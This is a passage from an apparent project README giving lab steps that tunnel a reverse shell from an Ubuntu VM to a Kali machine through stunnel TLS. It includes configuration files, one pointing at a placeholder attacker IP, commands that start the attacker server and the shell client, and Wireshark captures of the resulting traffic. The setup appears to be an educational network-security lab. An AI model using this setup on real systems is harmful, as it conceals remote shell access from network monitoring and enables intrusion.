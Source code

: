 4. Configure `stunnel` Server (on Kali)
    - Open your new `stunnel_server.conf` and update the `cert` path:
        ```
        [reverse_shell]
        accept = 0.0.0.0:4747
        connect = 127.0.0.1:4545
        cert = /full/path/to/stunnel.pem
        ```
        - Explanation:
            - `accept`: port `4747` will receive TLS-wrapped shell traffic
            - `connect`: forwards decrypted data to local reverse shell server

5. Start `stunnel` and Shell Server (on Kali)
    - In Terminal 1:
        ```bash
        cd ~/shifty-shell
        source venv/bin/activate
        python3 -m server.attacker_server
        ```
    - In Terminal 2:
        ```bash
        cd shifty-shell
        source venv/bin/activate
        stunnel stunnel_server.conf
        ```
    - Now Kali is ready to accept **TLS-encrypted** traffic on port 4747 and forward it internally to `4545`

6. Configure `stunnel` Client (on Ubuntu)
    - Edit your copied `stunnel_client.conf` with your actual Kali VM IP:
        ```
        [reverse_shell]
        accept = 127.0.0.1:5555
        connect = <ATTACKER_KALI_IP>:4747
        ```
    - This allows the reverse shell client to connect to `localhost:5555`, and the local `stunnel` instance will tunnel that securely to the Kali machine.

7. Start `stunnel` and Reverse Shell (on Ubuntu)
    - In Terminal 1:
        ```bash
        cd ~/shifty-shell
        source venv/bin/activate
        stunnel stunnel_client.conf
        ```
    - In Terminal 2:
        ```bash
        python3 -m shell.reverse_shell 127.0.0.1 5555
        ```
    - Your shell now communicates over a **TLS-secured tunnel**
    - The attacker only sees traffic arriving on port `4747`, not `4545`
    
    - See example Wireshark captures from two consecutive sessions run with `stunnel`: [stunnel-reverse-shell-capture1.pcapng](./reports/stunnel-reverse-shell-capture1.pcapng) and [stunnel-reverse-shell-capture2.pcapng](./reports/stunnel-reverse-shell-capture2.pcapng)
    - Here are screenshots from Wireshark while running above captures:
        [reverse-shell-wireshark-capture3-with-stunnel.jpg](./screenshots/reverse-shell-wireshark-capture3-with-stunnel.jpg) and [reverse-shell-wireshark-capture4-with-stunnel.jpg](./screenshots/reverse-shell-wireshark-capture4-with-stunnel.jpg)
